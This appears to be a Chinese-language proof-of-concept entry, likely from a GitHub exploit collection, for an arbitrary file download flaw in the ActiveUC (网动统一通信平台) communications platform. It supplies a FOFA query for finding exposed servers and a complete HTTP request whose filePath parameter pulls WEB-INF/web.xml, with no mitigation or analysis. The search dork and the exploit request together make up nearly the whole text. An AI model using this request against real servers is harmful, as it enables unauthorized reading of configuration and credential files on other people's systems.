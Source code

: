 ## 网动统一通信平台ActiveUC存在任意文件下载漏洞


## fofa
```
title="网动统一通信平台(Active UC)"
```


## poc
```javascript
GET /acenter/meetingShow!downloadDocument.action?filePath=WEB-INF/web.xml HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Connection: close
```

![image-20240928185228979](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409281852079.png)
